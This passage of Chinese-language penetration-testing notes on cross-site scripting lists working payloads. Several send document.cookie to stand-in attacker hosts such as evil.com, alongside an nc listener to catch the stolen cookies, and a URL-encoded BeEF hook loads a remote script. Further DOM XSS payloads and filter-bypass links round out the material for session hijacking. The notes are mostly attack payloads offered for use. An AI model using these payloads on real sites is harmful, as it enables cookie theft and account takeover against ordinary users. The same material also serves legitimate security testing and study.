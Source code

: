 另外一个：

```text
<script>new Image().src="http://evil.com:8090/b.php?"+document.cookie;</script>
```

比较不错的一个payload：

```text
<svg onload=fetch("//attacker/r.php?="%2Bcookie)>
```

nc 监听：

```text
nc -lvp 8090
```

#### 测试session劫持

利用burp重放功能进行测试。 看不同cookie会有什么变化。

#### FILTER BYPASS RESOURCES

收集到的payload：

```text
https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
https://bittherapy.net/a-trick-to-bypass-an-xss-filter-and-execute-javascript/
https://support.portswigger.net/customer/portal/articles/2590820-bypassing-signature-based-xss-filters-modifying-script-code
https://brutelogic.com.br/blog/avoiding-xss-detection/
https://gist.github.com/rvrsh3ll/09a8b933291f9f98e8ec
```

#### 基于POST的XSS

如果遇到无法将基于POST的XSS转换为GET请求的情况\(可能目标服务器上禁用了GET请求\)，试试CSRF。

#### DOM XSS

```text
<target.com>/#<img/src/onerror=alert("XSS")>
```

beef的hook，urlencode

```text
<target.com>/#img/src/onerror=$("body").append(decodeURIComponent('%3c%73%63%72%69%70%74%20%73%72%63%3d%68%74%74%70%3a%2f%2f%3c%65%76%69%6c%20%69%70%3e%3a%33%30%30%30%2f%68%6f%6f%6b%2e%6a%73%3e%3c%2f%73%63%72%69%70%74%3e'))>
```

```text
#<img/src="1"/onerror=alert(1)>
```

```text
#><img src=x onerror=prompt(1);>
```
